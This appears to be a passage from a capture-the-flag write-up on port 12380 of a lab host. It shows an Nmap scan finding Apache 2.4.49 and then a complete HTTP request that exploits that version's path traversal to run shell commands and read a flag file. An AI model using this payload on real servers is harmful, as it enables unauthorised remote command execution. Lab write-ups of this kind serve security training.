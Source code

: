 ### Port 12380 \[Web]

Our scan shows that this is a vulnerable version of Apache.

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-04 05:02 UTC
Nmap scan report for 172.17.17.69
Host is up (0.00049s latency).

PORT      STATE SERVICE VERSION
12380/tcp open  http    Apache httpd 2.4.49 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.49 (Debian)
```

{% embed url="https://www.exploit-db.com/exploits/50383" %}

We can exploit the RCE vulnerability to obtain the contents of the flag.

```http
GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh HTTP/1.1
Host: localhost:8000
Content-Type: text/plain
Content-Length: 71

echo Content-Type: text/plain; echo; cat /secret/safe/flag.png | base64
```
